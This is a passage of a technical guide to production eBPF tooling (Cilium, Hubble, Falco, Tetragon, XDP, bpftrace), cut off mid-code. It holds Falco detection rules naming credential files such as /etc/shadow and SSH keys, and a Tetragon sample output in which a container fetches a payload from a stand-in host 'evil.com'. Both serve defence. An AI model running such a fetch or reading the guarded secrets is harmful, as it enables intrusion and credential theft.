





# eBPF in Production

The [eBPF basics page](/infrastructure/linux-internals/ebpf) covers what eBPF is, program types, the verifier, and how to write your first programs. This page picks up where that leaves off: how organizations actually deploy eBPF at scale for networking, security, observability, and performance analysis in production environments.

The shift from "eBPF is cool" to "eBPF runs our production infrastructure" happened between 2020 and 2024. Google migrated GKE to Cilium (eBPF-based CNI). Meta serves billions of connections through Katran (eBPF-based L4 load balancer). Cloudflare mitigates multi-terabit DDoS attacks with XDP. Datadog, Elastic, and Grafana ship eBPF-based agents for zero-instrumentation observability. The question is no longer *if* you should use eBPF but *which eBPF-based tools* solve your specific problems.

This page is organized by use case: observability, security, networking, profiling, and Kubernetes integration. Each section covers the tools, architecture, deployment patterns, and production gotchas.

**Related**: [eBPF Basics](/infrastructure/linux-internals/ebpf) | [Kubernetes Networking](/infrastructure/kubernetes/network-policies) | [Backstage & Developer Portals](/infrastructure/platform-engineering/backstage)

---

## The eBPF Production Ecosystem



---

## Observability Use Cases

### Cilium Hubble — Network Observability

Hubble is Cilium's observability layer. It provides deep visibility into network flows, DNS queries, HTTP requests, and Kafka messages — all without sidecars or application instrumentation.

**How Hubble works:**

```
Pod A sends request to Pod B
    → Cilium's eBPF datapath processes the packet
    → eBPF program emits flow event to per-node ring buffer
    → Hubble agent reads from ring buffer
    → Events forwarded to Hubble Relay (cluster-wide aggregation)
    → Hubble UI / CLI / Prometheus metrics
```

**What Hubble captures:**

| Data Type | Details |
|-----------|---------|
| **L3/L4 flows** | Source/dest IP, port, protocol, bytes, packets |
| **L7 protocols** | HTTP method/path/status, gRPC service/method, DNS queries, Kafka topics |
| **Identity-aware** | Kubernetes pod, namespace, service identity (not just IPs) |
| **Policy verdicts** | Which network policy allowed or denied a flow |
| **DNS resolution** | Every DNS query and response, with latency |

```bash
# Install Hubble CLI
HUBBLE_VERSION=$(curl -s https://raw.githubusercontent.com/cilium/hubble/master/stable.txt)
curl -L --remote-name-all https://github.com/cilium/hubble/releases/download/$HUBBLE_VERSION/hubble-linux-amd64.tar.gz
tar xzvfC hubble-linux-amd64.tar.gz /usr/local/bin

# Enable Hubble in Cilium
helm upgrade cilium cilium/cilium \
  --namespace kube-system \
  --set hubble.enabled=true \
  --set hubble.relay.enabled=true \
  --set hubble.ui.enabled=true \
  --set hubble.metrics.enableOpenMetrics=true \
  --set hubble.metrics.enabled="{dns,drop,tcp,flow,port-distribution,icmp,httpV2:exemplars=true;labelsContext=source_ip\,source_namespace\,source_workload\,destination_ip\,destination_namespace\,destination_workload}"

# Observe flows in real time
hubble observe --namespace production --protocol http
hubble observe --verdict DROPPED  # see all denied traffic
hubble observe --to-pod payment-service  # traffic to a specific pod

# Export metrics to Prometheus
# Hubble automatically exposes metrics at :9965/metrics
# Key metrics: hubble_flows_processed_total, hubble_dns_queries_total,
# hubble_http_requests_total, hubble_drop_total
```

::: tip Hubble + Grafana
Hubble's Prometheus metrics integrate directly with Grafana. The Cilium team maintains official dashboards. The HTTP request metrics give you golden signals (latency, error rate, throughput) per service, per namespace — without touching application code.
:::

### Pixie — Auto-Instrumented Distributed Tracing

Pixie (now part of New Relic, CNCF sandbox project) uses eBPF to automatically capture distributed traces, metrics, and application profiles without any code changes, sidecars, or agents in your application containers.

**Architecture:**



**What Pixie captures automatically:**

- Full-body HTTP/gRPC/MySQL/PostgreSQL/Redis/Kafka request/response pairs
- Distributed traces (by correlating requests across pods)
- CPU flame graphs (continuous profiling via perf events)
- Network-level metrics (bytes, packets, retransmits, latency)
- JVM/Go/Python runtime metrics

```python
# PxL script: show HTTP requests with latency > 100ms
import px

df = px.DataFrame(table='http_events', start_time='-5m')
df = df[df.resp_latency_ns > 100 * 1000 * 1000]  # > 100ms
df.source = df.ctx['source']
df.destination = df.ctx['destination']
df = df[['source', 'destination', 'req_path', 'resp_status',
         'resp_latency_ns', 'req_body', 'resp_body']]
px.display(df)
```

::: warning Pixie's data stays in-cluster
Pixie stores captured data in-memory on each node (short-term retention, typically 6-24 hours depending on traffic volume). Data never leaves the cluster by default. This is a deliberate design choice for security-sensitive environments, but it means you need a separate long-term storage solution.
:::

### Parca — Continuous Profiling

Parca uses eBPF to continuously profile every process in your cluster with negligible overhead (<1% CPU). It captures CPU stack traces via `perf_event` eBPF programs and symbolizes them into flame graphs.

**Why continuous profiling matters:**

Traditional profiling happens in short bursts during debugging. Continuous profiling runs all the time, so you can:
- Compare flame graphs before and after a deploy to see exactly what changed
- Identify which function is causing a CPU regression in production
- Find performance regressions that only manifest under real production load
- Attribute CPU costs to specific functions, teams, or services

```bash
# Deploy Parca Agent (DaemonSet that runs eBPF profiler)
kubectl apply -f https://github.com/parca-dev/parca-agent/releases/latest/download/kubernetes-manifest.yaml

# Deploy Parca Server (stores and queries profiles)
kubectl apply -f https://github.com/parca-dev/parca/releases/latest/download/kubernetes-manifest.yaml
```

**How Parca's eBPF profiler works:**

```
1. eBPF program attached to perf_event (sampling at 19Hz or 97Hz)
2. On each sample: walk the stack (kernel + user space via frame pointers or DWARF)
3. Stack traces stored in eBPF map (hash map of stack ID → count)
4. User-space agent periodically reads the map
5. Symbolizes addresses using DWARF debug info, BTF, or /proc/pid/maps
6. Sends symbolized profiles to Parca Server in pprof format
7. Server stores profiles in columnar storage (FrostDB)
8. Query profiles via UI, API, or Grafana plugin
```

### Grafana Beyla — Auto-Instrumented Application Metrics

Grafana Beyla is an eBPF-based auto-instrumentation agent that generates OpenTelemetry metrics and traces for HTTP/gRPC services without any code changes.

```yaml
# Deploy Beyla as a DaemonSet
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: beyla
  namespace: monitoring
spec:
  selector:
    matchLabels:
      app: beyla
  template:
    spec:
      hostPID: true  # Required for eBPF
      containers:
        - name: beyla
          image: grafana/beyla:latest
          securityContext:
            privileged: true  # Required for eBPF
          env:
            - name: BEYLA_OPEN_PORT
              value: "80,443,8080,3000"  # Auto-discover services on these ports
            - name: OTEL_EXPORTER_OTLP_ENDPOINT
              value: "http://otel-collector:4318"
          volumeMounts:
            - name: bpf
              mountPath: /sys/fs/bpf
      volumes:
        - name: bpf
          hostPath:
            path: /sys/fs/bpf
```

Beyla uses uprobes on Go's `net/http`, Node.js's HTTP handlers, Python's WSGI/ASGI, and Java's Servlet to capture request metadata. It generates standard RED metrics (Rate, Errors, Duration) and OpenTelemetry spans.

---

## Security Use Cases

### Falco — Runtime Threat Detection

Falco (CNCF graduated project) is a runtime security tool that uses eBPF to monitor system calls and detect anomalous behavior in real time. It is the de facto standard for Kubernetes runtime threat detection.

**How Falco works:**



**Falco rules — what you can detect:**

```yaml
# Detect shell spawned in container
- rule: Terminal shell in container
  desc: A shell was spawned in a container
  condition: >
    spawned_process and container and
    proc.name in (bash, sh, zsh, dash, csh) and
    not proc.pname in (crond, sshd, tmux)
  output: >
    Shell spawned in container
    (user=%user.name container=%container.name
     shell=%proc.name parent=%proc.pname
     cmdline=%proc.cmdline image=%container.image.repository)
  priority: WARNING
  tags: [container, shell, mitre_execution]

# Detect container reading sensitive files
- rule: Read sensitive file in container
  desc: A container process attempted to read a known sensitive file
  condition: >
    open_read and container and
    fd.name in (/etc/shadow, /etc/sudoers, /root/.ssh/authorized_keys,
                /root/.bash_history, /etc/kubernetes/admin.conf)
  output: >
    Sensitive file read in container
    (user=%user.name file=%fd.name container=%container.name
     image=%container.image.repository command=%proc.cmdline)
  priority: CRITICAL
  tags: [container, filesystem, mitre_credential_access]

# Detect unexpected outbound connection
- rule: Unexpected outbound connection
  desc: Container making outbound connection to unexpected destination
  condition: >
    outbound and container and
    not (fd.sip in (allowed_outbound_ips) or
         fd.sport in (53, 443, 80))
  output: >
    Unexpected outbound connection
    (process=%proc.name connection=%fd.name
     container=%container.name image=%container.image.repository)
  priority: NOTICE
  tags: [container, network, mitre_exfiltration]
```

```bash
# Deploy Falco with Helm
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm install falco falcosecurity/falco \
  --namespace falco --create-namespace \
  --set driver.kind=ebpf \
  --set falcosidekick.enabled=true \
  --set falcosidekick.config.slack.webhookurl="https://hooks.slack.com/..." \
  --set falcosidekick.config.prometheus.enabled=true

# Falco with custom rules
helm install falco falcosecurity/falco \
  --set "falco.rules_file={/etc/falco/falco_rules.yaml,/etc/falco/custom_rules.yaml}" \
  --set-file "customRules.custom_rules\.yaml=./my-custom-rules.yaml"
```

### Tetragon — Runtime Security Enforcement

Tetragon (by Isovalent, now part of Cilium/CNCF) goes beyond Falco's detection model. While Falco detects and alerts, Tetragon can **enforce** — it can block syscalls, kill processes, and override kernel function return values in real time using eBPF.

**Key difference from Falco:**

| Capability | Falco | Tetragon |
|-----------|-------|----------|
| **Detection** | Yes (primary focus) | Yes |
| **Enforcement (kill/block)** | No (alert-only) | Yes (SIGKILL, override return) |
| **eBPF driver** | eBPF or kernel module | eBPF-only (modern) |
| **Kubernetes-aware** | Via metadata enrichment | Deep Kubernetes context (labels, annotations, service accounts) |
| **Network visibility** | Limited | Full (integrated with Cilium) |
| **Process tree tracking** | Basic | Full process lineage |

```yaml
# Tetragon TracingPolicy: block writes to /etc
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: block-etc-writes
spec:
  kprobes:
    - call: "security_file_open"
      syscall: false
      args:
        - index: 0
          type: "file"
      selectors:
        - matchArgs:
            - index: 0
              operator: "Prefix"
              values:
                - "/etc/"
          matchActions:
            - action: Sigkill  # Kill the process attempting the write
          matchNamespaces:
            - namespace: Hostns
              operator: NotIn
              values:
                - "host_ns"  # Only enforce in containers
```

```yaml
# Tetragon TracingPolicy: detect and log privilege escalation
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: detect-privilege-escalation
spec:
  kprobes:
    - call: "__x64_sys_setuid"
      syscall: true
      args:
        - index: 0
          type: "int"
      selectors:
        - matchArgs:
            - index: 0
              operator: "Equal"
              values:
                - "0"  # setuid(0) = become root
          matchActions:
            - action: Post  # Log but don't block
```

```bash
# Deploy Tetragon
helm install tetragon cilium/tetragon \
  --namespace kube-system \
  --set tetragon.exportAllowList='{"event_set":["PROCESS_EXEC","PROCESS_EXIT","PROCESS_KPROBE"]}'

# Watch events in real time
kubectl exec -n kube-system ds/tetragon -c tetragon -- \
  tetra getevents -o compact

# Example output:
# 🚀 process default/nginx /bin/bash
# 🚀 process default/nginx /usr/bin/curl https://evil.com/payload
# 💥 exit    default/nginx /usr/bin/curl 137 (SIGKILL by Tetragon)
```

### Tracee by Aqua Security

Tracee uses eBPF to trace system events and detect security threats at runtime. It focuses on MITRE ATT&CK framework mapping and provides out-of-the-box detections for common attack patterns.

```bash
# Run Tracee as a Docker container for quick testing
docker run --name tracee -it --rm \
  --pid=host --cgroupns=host --privileged \
  -v /etc/os-release:/etc/os-release-host:ro \
  -v /boot/config-$(uname -r):/boot/config-$(uname -r):ro \
  aquasec/tracee:latest

# Run with specific detection rules
docker run --name tracee -it --rm \
  --pid=host --cgroupns=host --privileged \
  aquasec/tracee:latest \
  --events anti_debugging,fileless_execution,dynamic_code_loading
```

---

## Networking Use Cases

### Cilium — Kubernetes CNI

Cilium is the most widely deployed eBPF-based Kubernetes CNI. It replaces kube-proxy, iptables, and traditional CNI plugins with eBPF programs that handle all networking decisions in the kernel.

**What Cilium replaces:**

```
Traditional Kubernetes networking:
  kube-proxy (iptables/IPVS) → Service load balancing
  CNI plugin (Calico, Flannel) → Pod networking
  Network policies (iptables) → Traffic filtering
  Sidecar proxies (Envoy) → L7 policy, mTLS

Cilium eBPF networking:
  eBPF TC programs → Service load balancing (replaces kube-proxy)
  eBPF TC programs → Pod networking (direct routing, VXLAN, or Geneve)
  eBPF programs → Network policies (identity-based, L3/L4/L7)
  eBPF programs → L7 policy (HTTP, gRPC, Kafka — no sidecars)
  WireGuard or IPsec → Encryption (kernel-level, no sidecars)
```



**Cilium deployment:**

```bash
# Install Cilium with kube-proxy replacement
helm install cilium cilium/cilium \
  --namespace kube-system \
  --set kubeProxyReplacement=true \
  --set k8sServiceHost=<API_SERVER_IP> \
  --set k8sServicePort=6443 \
  --set hubble.enabled=true \
  --set hubble.relay.enabled=true \
  --set hubble.ui.enabled=true \
  --set encryption.enabled=true \
  --set encryption.type=wireguard

# Verify Cilium status
cilium status --wait
cilium connectivity test
```

**Cilium Network Policy (identity-based, L7-aware):**

```yaml
# Allow frontend to call API only with GET/POST on /api/*
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: api-ingress-policy
spec:
  endpointSelector:
    matchLabels:
      app: api
  ingress:
    - fromEndpoints:
        - matchLabels:
            app: frontend
      toPorts:
        - ports:
            - port: "8080"
              protocol: TCP
          rules:
            http:
              - method: "GET"
                path: "/api/.*"
              - method: "POST"
                path: "/api/.*"
```

### XDP for DDoS Mitigation

XDP (eXpress Data Path) programs run at the network driver level, before the kernel allocates any per-packet data structures. This makes them extraordinarily fast for DDoS mitigation — they can process 10-20 million packets per second per core and drop attack traffic before it consumes kernel resources.

**Production XDP DDoS mitigation architecture:**



```c
// Production XDP: SYN flood mitigation with SYN cookies
// Simplified — real implementations use Katran or Cloudflare's approach
#include <linux/bpf.h>
#include <linux/if_ether.h>
#include <linux/ip.h>
#include <linux/tcp.h>
#include <bpf/bpf_helpers.h>

struct {
    __uint(type, BPF_MAP_TYPE_LRU_HASH);
    __uint(max_entries, 1000000);
    __type(key, __u32);   // source IP
    __type(value, __u64); // packet count + timestamp
} syn_tracker SEC(".maps");

struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __uint(max_entries, 100000);
    __type(key, __u32);   // blocked IP
    __type(value, __u8);  // reason
} blocklist SEC(".maps");

SEC("xdp")
int xdp_ddos_mitigate(struct xdp_md *ctx) {
    void *data = (void *)(long)ctx->data;
    void *data_end = (void *)(long)ctx->data_end;

    struct ethhdr *eth = data;
    if ((void *)(eth + 1) > data_end)
        return XDP_PASS;
    if (eth->h_proto != __constant_htons(ETH_P_IP))
        return XDP_PASS;

    struct iphdr *ip = (void *)(eth + 1);
    if ((void *)(ip + 1) > data_end)
        return XDP_PASS;

    __u32 src_ip = ip->saddr;

    // Check blocklist first (O(1) hash lookup)
    if (bpf_map_lookup_elem(&blocklist, &src_ip))
        return XDP_DROP;

    // Track SYN packets for rate limiting
    if (ip->protocol == IPPROTO_TCP) {
        struct tcphdr *tcp = (void *)(ip + 1);
        if ((void *)(tcp + 1) > data_end)
            return XDP_PASS;

        if (tcp->syn && !tcp->ack) {
            __u64 *counter = bpf_map_lookup_elem(&syn_tracker, &src_ip);
            if (counter) {
                __sync_fetch_and_add(counter, 1);
                if (*counter > 100) { // > 100 SYNs from single IP
                    return XDP_DROP;
                }
            } else {
                __u64 initial = 1;
                bpf_map_update_elem(&syn_tracker, &src_ip, &initial, BPF_ANY);
            }
        }
    }

    return XDP_PASS;
}

char _license[] SEC("license") = "GPL";
```

**Companies using XDP for DDoS:**

| Company | Approach |
|---------|----------|
| **Cloudflare** | XDP programs on every edge server, processing 100+ Tbps of attack traffic |
| **Meta** | Katran uses XDP for L4 load balancing + DDoS filtering across all data centers |
| **Dropbox** | Custom XDP programs for edge packet filtering |
| **Alibaba Cloud** | XDP-based DDoS protection for cloud infrastructure |

### eBPF-Based Load Balancing

**Katran (Meta's L4 Load Balancer):**

Katran handles all external L4 load balancing at Meta. It uses XDP to perform consistent hashing, IPIP/GUE encapsulation, and health checking — entirely in eBPF.

```
Client → Katran (XDP on edge server) → Backend server
                 ↓
    1. Parse packet headers
    2. Hash(src_ip, src_port, dst_ip, dst_port, protocol) → backend_id
    3. Lookup backend IP from eBPF map
    4. Encapsulate in IPIP or GUE
    5. XDP_TX back to NIC → routed to backend
```

**Cilium's kube-proxy replacement:**

```bash
# Verify Cilium has replaced kube-proxy
kubectl -n kube-system exec ds/cilium -- cilium service list

# Output shows all Kubernetes services handled by eBPF:
# ID   Frontend              Service Type   Backend
# 1    10.96.0.1:443         ClusterIP      192.168.1.10:6443
# 2    10.96.0.10:53         ClusterIP      10.244.0.5:53, 10.244.1.3:53
# 3    10.96.128.50:80       LoadBalancer   10.244.0.8:8080, 10.244.1.9:8080
```

Performance comparison:

| Metric | iptables (kube-proxy) | Cilium eBPF |
|--------|----------------------|-------------|
| **Service lookup** | O(n) chain traversal | O(1) hash map |
| **Connection tracking** | conntrack table (CPU-intensive) | eBPF CT map |
| **Rule update time** | Rebuilds entire chain (seconds at >5K services) | Updates single map entry (microseconds) |
| **Latency per packet** | 5-10us per service hop | 1-2us per service hop |

---

## Tracing and Profiling Use Cases

### bpftrace One-Liners for Production Debugging

bpftrace is the go-to tool for ad-hoc production investigation. These one-liners require no setup beyond installing bpftrace.

```bash
# === Network Debugging ===

# TCP retransmits — which connections are flaky?
bpftrace -e 'kprobe:tcp_retransmit_skb {
    @retransmits[ntop(((struct sock *)arg0)->__sk_common.skc_daddr)] = count();
}'

# TCP connection latency histogram (how long does connect() take?)
bpftrace -e 'kprobe:tcp_v4_connect { @start[tid] = nsecs; }
kretprobe:tcp_v4_connect /@start[tid]/ {
    @connect_latency_us = hist((nsecs - @start[tid]) / 1000);
    delete(@start[tid]);
}'

# DNS query latency (every DNS lookup your apps make)
bpftrace -e 'uprobe:/lib/x86_64-linux-gnu/libc.so.6:getaddrinfo {
    @dns_start[tid] = nsecs;
}
uretprobe:/lib/x86_64-linux-gnu/libc.so.6:getaddrinfo /@dns_start[tid]/ {
    @dns_latency_us = hist((nsecs - @dns_start[tid]) / 1000);
    delete(@dns_start[tid]);
}'

# === Disk I/O ===

# Block I/O latency histogram
bpftrace -e 'tracepoint:block:block_rq_issue { @start[args->dev, args->sector] = nsecs; }
tracepoint:block:block_rq_complete /@start[args->dev, args->sector]/ {
    @io_latency_us = hist((nsecs - @start[args->dev, args->sector]) / 1000);
    delete(@start[args->dev, args->sector]);
}'

# Which processes are doing the most disk writes?
bpftrace -e 'tracepoint:block:block_rq_issue /args->rwbs == "W"/ {
    @writes_by_process[comm] = sum(args->bytes);
}'

# === Memory ===

# Page faults by process (who is thrashing?)
bpftrace -e 'software:page-faults:1 { @page_faults[comm] = count(); }'

# OOM killer invocations
bpftrace -e 'kprobe:oom_kill_process {
    printf("OOM kill: pid=%d comm=%s\n", pid, comm);
}'

# === Process ===

# Short-lived processes (often invisible to top/ps)
bpftrace -e 'tracepoint:sched:sched_process_exec {
    printf("%-8d %-16s %s\n", pid, comm, str(args->filename));
}'

# Process lifecycle (exec + exit with duration)
bpftrace -e 'tracepoint:sched:sched_process_exec {
    @start_time[pid] = nsecs;
    printf("EXEC pid=%d %s\n", pid, str(args->filename));
}
tracepoint:sched:sched_process_exit /@start_time[pid]/ {
    $duration_ms = (nsecs - @start_time[pid]) / 1000000;
    printf("EXIT pid=%d %s duration=%dms\n", pid, comm, $duration_ms);
    delete(@start_time[pid]);
}'
```

::: warning bpftrace in Production
bpftrace one-liners are safe in production — they attach to existing kernel events and add minimal overhead. However: (1) avoid `printf` in tight loops (ring buffer can fill up), (2) use `interval:s:5` to emit aggregated data instead of per-event output, (3) set timeouts with `-d duration` to prevent forgotten traces from running indefinitely.
:::

### Continuous Profiling with Pyroscope

Pyroscope (now part of Grafana Labs) supports eBPF-based continuous profiling alongside its traditional pull-based profiling.

```bash
# Deploy Pyroscope with eBPF profiling in Kubernetes
helm repo add grafana https://grafana.github.io/helm-charts
helm install pyroscope grafana/pyroscope \
  --namespace monitoring \
  --set ebpf.enabled=true

# Pyroscope agent with eBPF (standalone)
pyroscope ebpf \
  --server-address http://pyroscope-server:4040 \
  --application-name "my-app" \
  --spy-name "ebpfspy" \
  --sample-rate 97
```

### Performance Monitoring Patterns

**TCP retransmit monitoring (production essential):**

```python
#!/usr/bin/env python3
# tcp_retransmit_monitor.py — BCC-based TCP retransmit monitor
# Exports Prometheus metrics for dashboarding

from bcc import BPF
from prometheus_client import Counter, start_http_server

bpf_program = """
#include <net/sock.h>
#include <net/tcp.h>
#include <bcc/proto.h>

BPF_HASH(retransmit_count, u32, u64);  // dest IP → count

int trace_retransmit(struct pt_regs *ctx, struct sock *sk) {
    u32 daddr = sk->__sk_common.skc_daddr;
    u64 *count = retransmit_count.lookup(&daddr);
    if (count) {
        (*count)++;
    } else {
        u64 one = 1;
        retransmit_count.update(&daddr, &one);
    }
    return 0;
}
"""

retransmit_counter = Counter('tcp_retransmits_total', 'TCP retransmits', ['dest_ip'])
start_http_server(9090)

b = BPF(text=bpf_program)
b.attach_kprobe(event="tcp_retransmit_skb", fn_name="trace_retransmit")

# Periodically read map and update Prometheus metrics
while True:
    for k, v in b["retransmit_count"].items():
        ip = ".".join(map(str, [k.value & 0xff, (k.value >> 8) & 0xff,
                                 (k.value >> 16) & 0xff, (k.value >> 24) & 0xff]))
        retransmit_counter.labels(dest_ip=ip).inc(v.value)
    b["retransmit_count"].clear()
    import time; time.sleep(10)
```

---

## Kubernetes-Native eBPF

### Cilium as the Default CNI

Cilium has become the default CNI for GKE (Google), AKS (Azure), and is recommended on EKS (AWS). The trend is clear: eBPF is becoming the standard Kubernetes networking layer.

| Kubernetes Distribution | eBPF CNI Status |
|------------------------|-----------------|
| **GKE Dataplane V2** | Cilium (default since 2023) |
| **AKS** | Cilium-powered (default for new clusters) |
| **EKS** | Cilium available via add-on |
| **OpenShift** | eBPF-based OVN-Kubernetes |
| **RKE2 / K3s** | Cilium as first-class option |

### Calico eBPF Mode

Calico (Tigera) also offers an eBPF datapath as an alternative to its iptables mode.

```bash
# Enable Calico eBPF mode
kubectl patch installation default --type=merge --patch='
  {"spec": {"calicoNetwork": {"linuxDataplane": "BPF"}}}'

# Disable kube-proxy (Calico eBPF replaces it)
kubectl patch ds -n kube-system kube-proxy -p \
  '{"spec":{"template":{"spec":{"nodeSelector":{"non-calico": "true"}}}}}'
```

**Calico eBPF vs Cilium:**

| Feature | Cilium | Calico eBPF |
|---------|--------|-------------|
| **L7 policy** | Yes (HTTP, gRPC, Kafka) | No (L3/L4 only) |
| **Hubble observability** | Yes | No (uses Prometheus metrics) |
| **kube-proxy replacement** | Yes | Yes |
| **WireGuard encryption** | Yes | Yes |
| **Windows support** | Limited | Yes |
| **Maturity** | More features | More conservative |

### eBPF Security in Kubernetes

Deploying eBPF tools in Kubernetes requires careful security considerations:

```yaml
# Minimal securityContext for eBPF workloads
securityContext:
  # Option 1: Privileged (easiest but least secure)
  privileged: true

  # Option 2: Fine-grained capabilities (recommended)
  capabilities:
    add:
      - SYS_ADMIN     # Required for bpf() syscall
      - SYS_RESOURCE  # Required for increasing RLIMIT_MEMLOCK
      - NET_ADMIN     # Required for XDP/TC attachment
      - PERFMON       # Required for perf_event (kernel 5.8+)
      - BPF           # Required for bpf() (kernel 5.8+)
    drop:
      - ALL
  readOnlyRootFilesystem: true
  runAsNonRoot: false  # Some eBPF ops require root

# Volume mounts commonly needed
volumeMounts:
  - name: bpf-fs
    mountPath: /sys/fs/bpf          # BPF filesystem (pinned maps)
  - name: debug-fs
    mountPath: /sys/kernel/debug     # Tracepoints, kprobes
  - name: kernel-headers
    mountPath: /usr/src              # For CO-RE BTF (if not embedded)
  - name: proc
    mountPath: /proc
    readOnly: true
```

::: danger BPF and SYS_ADMIN
The `SYS_ADMIN` capability is extremely broad — it grants many privileges beyond eBPF. On kernels 5.8+, use the `CAP_BPF` and `CAP_PERFMON` capabilities instead. These are dedicated eBPF capabilities that grant only what is needed for loading and running BPF programs. Check your kernel version before choosing.
:::

---

## Building Custom eBPF Programs

### libbpf + CO-RE (Modern Approach)

The modern way to write production eBPF programs is libbpf with CO-RE (Compile Once, Run Everywhere). This replaces the older BCC approach that required LLVM/Clang on target machines.

```
BCC approach (legacy):
  Python/Lua script → embedded C code → compiled on target → loaded
  Problem: Requires LLVM/Clang + kernel headers on every target machine

libbpf + CO-RE approach (modern):
  C code → compiled once with BTF → .bpf.o → libbpf loads on any kernel
  Advantage: Single binary, no compilation dependencies on target
```

**Project structure for a libbpf program:**

```
my-ebpf-tool/
├── src/
│   ├── my_tool.bpf.c      # eBPF program (runs in kernel)
│   ├── my_tool.c           # User-space loader + logic
│   └── my_tool.h           # Shared types between kernel/user space
├── vmlinux/
│   └── vmlinux.h           # Auto-generated kernel types (bpftool btf dump)
├── Makefile
└── Dockerfile
```

```c
// my_tool.bpf.c — eBPF kernel program
#include "vmlinux.h"
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_tracing.h>
#include <bpf/bpf_core_read.h>
#include "my_tool.h"

struct {
    __uint(type, BPF_MAP_TYPE_RINGBUF);
    __uint(max_entries, 256 * 1024);  // 256 KB ring buffer
} events SEC(".maps");

SEC("tp/sched/sched_process_exec")
int handle_exec(struct trace_event_raw_sched_process_exec *ctx) {
    struct event *e;
